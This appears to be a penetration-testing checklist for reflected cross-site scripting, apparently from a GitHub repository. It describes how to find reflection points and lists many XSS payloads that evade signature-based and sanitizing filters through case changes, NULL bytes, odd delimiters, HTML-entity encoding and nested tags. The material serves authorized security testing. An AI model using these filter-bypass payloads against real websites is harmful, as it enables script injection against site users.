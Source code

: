 # Reflected XSS

- [ ] Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters. Submit this string as every parameter to every page, targeting only one parameter at a time (Note that both GET and POST requests need to be tested).
- [ ] Monitor the application’s responses for any appearance of this same string.
- [ ] Submit the follwing payload `'';!--"<XSS>=&{()}` where reflection was detected. Check which characters gets encoded or truncated. If there is a filter in place, try to detect what signature it is using.
- [ ] Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc.

# Bypassing Signature-Based XSS Filters
- [ ] Starting with the opening tag name, the most simple and naive filters can be bypassed simply by varying the case of the characters used: `<iMg onerror=alert(1) src=a>`
- [ ] Going further, if you modify the example slightly, you can use arbitrary tag names to introduce event handlers, thereby bypassing filters that merely block specific named tags: `<x onclick=alert(1) scr=a>click here</x>`
- [ ] In addition, you can insert NULL bytes in any position. Note: The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes often provides a quick way to bypass signature-based filters that are unaware of IE's behavior. `<[%00]img onerror=alert(1) src=a>`
- [ ] Several characters can replace the space between the tag names and the first attribute name:
```
<img/onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<img """><script>alert("alert(1)")</script>">
```
Note: even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters: `script/anyjunk>alert(1)</script>`
- [ ] Attributes can optionally be delimited with double or single quotes or, on IE, with backticks:
```
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
<img onerror=`alert(1)`src=a>
```
Switching around the attributes in the preceding example provides a further way to bypass some filters that check for attribute names starting with on. img src='a'onerror=alert(1)> By combining quote-delimited attributes with unexpected characters following the tag name, attacks can be devised that do not use any whitespace, thereby bypassing some simple filters: `<img/onerror="alert(1)"src=a>`
- [ ] Within the attribute name and value, you can use the same NULL byte trick described earlier.
```
<img onerror=a[%00]lert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
You can also HTML-encode characters within the value: `<img onerror=a&#x6c;ert(1) src=a>`
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters.
- [ ] It is also worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding may overlook. You can use both decimal and hexadecimal format, add superfluous leading zeros, and omit the trailing semicolon.
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
```

# Beating HTML Sanitizing Filters
- [ ] When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters or expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters.
- [ ] So, if <script> is being stripped from your input, you should try the following to check whether all instances are being removed: `<script><script>alert(1)</script>`
- [ ] In this situation you should also check whether the sanitization is being performed recursively: `<scr<script>ipt>alert(1)</script>`
